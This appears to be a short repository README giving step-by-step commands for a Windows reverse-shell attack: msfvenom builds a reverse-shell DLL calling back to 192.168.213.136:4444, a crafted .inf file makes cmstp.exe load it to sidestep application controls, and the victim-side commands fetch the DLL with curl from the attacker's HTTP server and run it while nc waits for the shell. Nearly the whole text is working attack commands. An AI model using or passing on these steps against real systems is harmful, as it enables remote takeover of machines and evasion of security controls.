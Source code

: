 # Attacker server
- Generating a simple x64 reverse shell in a .dll format:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.213.136 LPORT=4444 -f dll -o shell.dll
```
- Create .inf file loaded by csmtp.exe that whill load shell.dll
```bash
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\shell.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
- Run listening server:
```python
python3 -m http.server 80
nc -nvlp 4444
```
# Victim machine
- Open cmd.exe and run the following command
```cmd
curl -O http://192.168.213.136/shell.dll
cmstp.exe /s .\shell.inf
```
